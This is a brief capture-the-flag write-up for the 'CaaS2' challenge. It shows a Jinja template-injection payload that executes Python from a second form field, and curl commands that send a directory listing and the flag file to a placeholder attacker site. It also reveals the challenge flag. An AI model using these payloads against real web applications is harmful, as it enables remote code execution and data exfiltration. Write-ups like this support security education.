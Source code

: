 # CaaS2 | NoobMaster

- Description: 

# Writeup
Same solve as CaaS1, except we need to do `ls` this time. Payload(name field) - `{{request.application.__builtins__.exec(request.values["team_name"])}}`. Payload(team_name field) - `import os; os.system("ls > /tmp/a; curl https://YOUR_WEBSITE_LINK -d @/tmp/a")` and then, `import os; os.system('curl https://YOUR_WEBSITE_LINK -d @s3cur3_fl4g_f1l3_.txt')`. The YOUR_WEBSITE_LINK is a simple website link, something like ngrok or beeceptor

# Flag - n00bz{g00d_j0b_0n_s0lv1ng_C44S_2_n0w_y0u_c4n_t4k3_r3s7!!!!!}